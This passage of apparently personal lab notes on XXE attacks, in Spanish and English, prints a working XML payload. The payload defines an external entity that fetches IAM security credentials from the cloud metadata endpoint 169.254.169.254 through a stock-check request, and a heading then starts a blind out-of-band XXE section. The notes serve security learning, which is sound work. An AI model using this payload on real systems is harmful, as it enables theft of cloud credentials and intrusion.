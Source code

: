 > Igual que antes comprobamos si es vulnerable mediante una entidad.

![](/img2/Pasted%20image%2020250814221310.png)

- Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY myRequest SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
  <stockCheck>
    <productId>
	    &myRequest;
	</productId>
    <storeId>
	    1
	</storeId>
  </stockCheck>
```

## XXE ciego con interacción out-of-band || Blind XXE with out-of-band interaction

![](/img2/Pasted%20image%2020250814223415.png)
